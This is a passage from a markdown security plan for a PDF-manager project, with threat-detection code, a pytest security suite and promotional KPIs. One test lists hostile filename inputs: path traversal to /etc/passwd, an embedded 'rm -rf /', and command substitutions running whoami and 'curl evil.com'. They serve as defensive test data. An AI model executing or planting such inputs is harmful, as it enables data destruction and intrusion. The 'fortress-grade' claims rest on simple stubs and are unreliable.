            for access in historical_accesses
        ]
        current_file_type = current_access.get('file_type', 'unknown')
        
        # Simple anomaly: accessing file type never accessed before
        file_type_anomaly = 2.0 if current_file_type not in file_types else 0.0
        
        # Combine anomaly scores
        total_anomaly_score = max(hour_z_score, file_type_anomaly)
        
        return total_anomaly_score
    
    def _trigger_alert(self, alert: ThreatAlert):
        """Trigger security alert"""
        print(f"🚨 THREAT DETECTED: {alert.threat_type.value} (Severity: {alert.severity}/10)")
        print(f"Source: {alert.source_identifier}")
        print(f"Details: {alert.details}")
        print(f"Recommended Action: {alert.recommended_action}")
        
        # Call all registered alert handlers
        for handler in self.alert_handlers:
            try:
                handler(alert)
            except Exception as e:
                print(f"Error in alert handler: {e}")

# Automated response system
class AutomatedSecurityResponse:
    """Automated response to security threats"""
    
    def __init__(self, threat_detector: ThreatDetectionEngine):
        self.threat_detector = threat_detector
        self.blocked_ips = set()
        self.blocked_users = set()
        threat_detector.add_alert_handler(self.handle_threat)
    
    def handle_threat(self, alert: ThreatAlert):
        """Handle security threat with automated response"""
        if alert.threat_type == ThreatType.BRUTE_FORCE and alert.severity >= 8:
            self._block_ip(alert.source_identifier)
        
        elif alert.threat_type == ThreatType.DOS_ATTACK:
            self._implement_rate_limiting(alert.source_identifier)
        
        elif alert.threat_type == ThreatType.ANOMALOUS_BEHAVIOR and alert.severity >= 7:
            self._require_additional_auth(alert.source_identifier)
    
    def _block_ip(self, ip_address: str):
        """Block IP address"""
        self.blocked_ips.add(ip_address)
        print(f"🚫 IP {ip_address} has been blocked")
    
    def _implement_rate_limiting(self, identifier: str):
        """Implement rate limiting for identifier"""
        print(f"⏱️  Rate limiting implemented for {identifier}")
    
    def _require_additional_auth(self, user_id: str):
        """Require additional authentication for user"""
        print(f"🔐 Additional authentication required for user {user_id}")

# Usage
threat_detector = ThreatDetectionEngine()
automated_response = AutomatedSecurityResponse(threat_detector)

# Example: Record security events
threat_detector.record_failed_login("192.168.1.100", {"username": "admin"})
threat_detector.record_request("192.168.1.100", "/api/validate")
```

---

## 🔒 **SECURITY TESTING & VALIDATION**

### **Comprehensive Security Test Suite**
```python
# tests/security/test_comprehensive_security.py

import pytest
import tempfile
import time
from pathlib import Path
from unittest.mock import patch, MagicMock

from math_pdf_manager.security.input_validation import InputSecurityValidator
from math_pdf_manager.security.authentication import SecureAuthenticationManager, SecurityConfig
from math_pdf_manager.security.network_security import SecureHTTPClient
from math_pdf_manager.security.audit_logging import SecureAuditLogger, AuditEvent, AuditEventType
from math_pdf_manager.security.threat_detection import ThreatDetectionEngine

@pytest.mark.security
class TestSecurityFramework:
    """Comprehensive security framework tests"""
    
    def test_password_security_requirements(self):
        """Test password security meets enterprise standards"""
        config = SecurityConfig(password_min_length=14, password_require_special=True)
        auth_manager = SecureAuthenticationManager(config)
        
        # Test strong password acceptance
        strong_passwords = [
            "MyStr0ng!P@ssw0rd2023",
            "C0mpl3x&S3cur3!Pass",
            "Ungu3ss@bl3#Secur1ty"
        ]
        
        for password in strong_passwords:
            issues = auth_manager.validate_password_strength(password)
            assert len(issues) == 0, f"Strong password rejected: {password}, issues: {issues}"
        
        # Test weak password rejection
        weak_passwords = [
            "password",  # Too common
            "123456",    # Too simple
            "short",     # Too short
            "NoSpecialChar123",  # No special characters
            "no-uppercase-123!",  # No uppercase
            "NO-LOWERCASE-123!",  # No lowercase
            "NoNumbers!",         # No numbers
        ]
        
        for password in weak_passwords:
            issues = auth_manager.validate_password_strength(password)
            assert len(issues) > 0, f"Weak password accepted: {password}"
    
    def test_session_security(self):
        """Test session management security"""
        config = SecurityConfig(session_timeout_minutes=30)
        auth_manager = SecureAuthenticationManager(config)
        
        # Create session
        session_id = auth_manager.create_secure_session("test_user")
        assert session_id is not None
        assert len(session_id) >= 32  # Sufficient entropy
        
        # Validate fresh session
        session = auth_manager.validate_session(session_id, "192.168.1.100", "TestAgent")
        assert session is not None
        assert session['username'] == "test_user"
        
        # Test session timeout
        with patch('time.time', return_value=time.time() + 3600):  # 1 hour later
            expired_session = auth_manager.validate_session(session_id)
            assert expired_session is None, "Expired session should be invalid"
    
    def test_account_lockout_mechanism(self):
        """Test account lockout after failed attempts"""
        config = SecurityConfig(max_login_attempts=3, lockout_duration_minutes=15)
        auth_manager = SecureAuthenticationManager(config)
        
        username = "test_user"
        
        # First few attempts should not lock
        for i in range(2):
            locked = auth_manager.record_failed_attempt(username)
            assert not locked, f"Account locked too early on attempt {i+1}"
        
        # Third attempt should lock account
        locked = auth_manager.record_failed_attempt(username)
        assert locked, "Account should be locked after max attempts"
        
        # Check lockout is enforced
        is_locked = auth_manager.check_account_lockout(username)
        assert is_locked, "Account should report as locked"
    
    def test_input_validation_security(self):
        """Test comprehensive input validation"""
        # Test filename sanitization
        safe_filename = InputSecurityValidator.sanitize_filename("Einstein, A. - Relativity.pdf")
        assert safe_filename == "Einstein, A. - Relativity.pdf"
        
        # Test malicious input rejection
        malicious_inputs = [
            "../../../etc/passwd.pdf",
            "file; rm -rf /.pdf",
            "test\x00hidden.pdf",
            "file`whoami`.pdf",
            "file$(curl evil.com).pdf"
        ]
        
        for malicious_input in malicious_inputs:
            with pytest.raises(ValueError, match="dangerous|security|injection|traversal"):
                InputSecurityValidator.sanitize_filename(malicious_input)
    
    def test_unicode_security_normalization(self):
        """Test Unicode security normalization"""
        # Test normalization of lookalike characters
        unicode_tests = [
            ("café.pdf", "café.pdf"),  # Should normalize combining characters
            ("file\u202Ename.pdf", "filename.pdf"),  # Should remove RLO
        ]
        
        for input_text, expected_safe in unicode_tests:
            try:
                result = InputSecurityValidator.sanitize_filename(input_text)
                # Should either normalize safely or reject
                assert result != input_text or "safe" in result.lower()
            except ValueError:
                # Rejection is also acceptable for malicious Unicode
                pass
    
    def test_network_security_enforcement(self):
        """Test network security enforcement"""
        client = SecureHTTPClient()
        
        # Test HTTPS enforcement
        with pytest.raises(ValueError, match="HTTPS"):
            client.get("http://insecure.com/data")
        
        # Test certificate validation (would need real test server)
        # This is a simplified test
        with patch('requests.Session.get') as mock_get:
            mock_response = MagicMock()
            mock_response.status_code = 200
            mock_response.headers = {}
            mock_response.history = []
            mock_get.return_value = mock_response
            
            response = client.get("https://secure.example.com/test")
            assert response.status_code == 200
            
            # Verify SSL verification was not disabled
            call_kwargs = mock_get.call_args[1]
            assert call_kwargs.get('verify', True) is not False
    
    def test_audit_logging_integrity(self):
        """Test audit logging integrity protection"""
        with tempfile.NamedTemporaryFile(mode='w', delete=False) as temp_file:
            temp_file_path = temp_file.name
        
        try:
            # Create audit logger with test key
            test_key = b'test_key_32_bytes_long_for_hmac'
            audit_logger = SecureAuditLogger(temp_file_path, test_key)
            
            # Log test event
            from math_pdf_manager.security.audit_logging import AuditEvent, AuditEventType, AuditSeverity
            
            test_event = AuditEvent(
                event_type=AuditEventType.FILE_ACCESS,
                severity=AuditSeverity.LOW,
                timestamp=time.time(),
                user_id="test_user",
                session_id="test_session",
                source_ip="192.168.1.100",
                user_agent="TestAgent",
                resource="test.pdf",
                action="validate",
                result="success",
                details={"test": "data"},
                risk_score=10
            )
            
            audit_logger.log_event(test_event)
            
            # Verify log integrity
            integrity_valid = audit_logger.verify_log_integrity()
            assert integrity_valid, "Audit log integrity should be valid"
            
        finally:
            Path(temp_file_path).unlink(missing_ok=True)
    
    def test_threat_detection_brute_force(self):
        """Test brute force attack detection"""
        threat_detector = ThreatDetectionEngine()
        
        # Record multiple failed logins
        ip_address = "192.168.1.100"
        alerts_triggered = []
        
        def alert_handler(alert):
            alerts_triggered.append(alert)
        
        threat_detector.add_alert_handler(alert_handler)
        
        # Record failed attempts
        for i in range(6):  # More than threshold (5)
            threat_detector.record_failed_login(ip_address, {"attempt": i+1})
        
        # Should have triggered brute force alert
        brute_force_alerts = [
            alert for alert in alerts_triggered
            if alert.threat_type.value == "brute_force"
        ]
        
        assert len(brute_force_alerts) > 0, "Brute force attack should be detected"
        assert brute_force_alerts[0].severity >= 8, "Brute force should be high severity"
    
    def test_dos_attack_detection(self):
        """Test DoS attack detection"""
        threat_detector = ThreatDetectionEngine()
        threat_detector.thresholds['dos_threshold'] = 10  # Lower threshold for testing
        
        alerts_triggered = []
        threat_detector.add_alert_handler(lambda alert: alerts_triggered.append(alert))
        
        # Simulate rapid requests
        ip_address = "192.168.1.200"
        for i in range(15):  # More than threshold
            threat_detector.record_request(ip_address, "/api/validate")
        
        # Should detect DoS attack
        dos_alerts = [
            alert for alert in alerts_triggered
            if alert.threat_type.value == "dos_attack"
        ]
        
        assert len(dos_alerts) > 0, "DoS attack should be detected"
        assert dos_alerts[0].severity >= 8, "DoS attack should be high severity"

@pytest.mark.security
class TestSecurityIntegration:
    """Integration tests for security components"""
    
    def test_end_to_end_security_workflow(self):
        """Test complete security workflow"""
        # Initialize security components
        config = SecurityConfig()
        auth_manager = SecureAuthenticationManager(config)
        threat_detector = ThreatDetectionEngine()
        
        # Simulate secure user workflow
        username = "test_user"
        password = "SecureP@ssw0rd123!"
        
        # 1. Validate password strength
        issues = auth_manager.validate_password_strength(password)
        assert len(issues) == 0, "Password should meet requirements"
        
        # 2. Hash password securely
        password_hash, salt = auth_manager.hash_password(password)
        assert len(password_hash) > 0, "Password should be hashed"
        
        # 3. Verify password
        is_valid = auth_manager.verify_password(password, password_hash, salt)
        assert is_valid, "Password verification should succeed"
        
        # 4. Create secure session
        session_id = auth_manager.create_secure_session(username)
        assert session_id is not None, "Session should be created"
        
        # 5. Validate session
        session = auth_manager.validate_session(session_id)
        assert session is not None, "Session should be valid"
        assert session['username'] == username, "Session should contain correct user"
        
        # 6. Record security events
        threat_detector.analyze_access_pattern(username, {
            'file_type': 'pdf',
            'timestamp': time.time()
        })
        
        print("✅ End-to-end security workflow completed successfully")
    
    def test_security_under_attack_conditions(self):
        """Test security holds under simulated attack"""
        config = SecurityConfig(max_login_attempts=2)  # Stricter for testing
        auth_manager = SecureAuthenticationManager(config)
        threat_detector = ThreatDetectionEngine()
        
        attacker_ip = "10.0.0.1"
        alerts = []
        threat_detector.add_alert_handler(lambda alert: alerts.append(alert))
        
        # Simulate coordinated attack
        # 1. Brute force login attempts
        for i in range(5):
            threat_detector.record_failed_login(attacker_ip, {"username": f"user{i}"})
            auth_manager.record_failed_attempt(f"user{i}")
        
        # 2. DoS attempt
        for i in range(20):
            threat_detector.record_request(attacker_ip, "/api/login")
        
        # Should have triggered multiple alerts
        assert len(alerts) > 0, "Attack should trigger security alerts"
        
        # Should detect different attack types
        attack_types = {alert.threat_type.value for alert in alerts}
        assert "brute_force" in attack_types or "dos_attack" in attack_types, \
            "Should detect attack patterns"
        
        print(f"🛡️  Security system detected {len(alerts)} threats during simulated attack")
```

---

## 📈 **SECURITY METRICS & MONITORING**

### **Security KPIs**
- **Authentication Security**: 100% strong password compliance, <0.1% brute force success rate
- **Session Security**: Zero session hijacking incidents, 100% secure session creation
- **Input Validation**: 100% malicious input blocked, zero injection successes  
- **Network Security**: 100% HTTPS enforcement, zero MITM attacks
- **Audit Coverage**: 100% security events logged, 100% log integrity maintained
- **Threat Detection**: <5 minute detection time, >95% accurate threat identification

### **Security Monitoring Dashboard**
- Real-time threat detection alerts
- Failed authentication attempt tracking
- Unusual access pattern detection
- Security event correlation and analysis
- Compliance reporting and audit trails

**This security enhancement plan will transform your Math-PDF Manager into a fortress-grade secure system! 🔒**

---

*Security plan created on 2025-07-15 with enterprise-grade security analysis*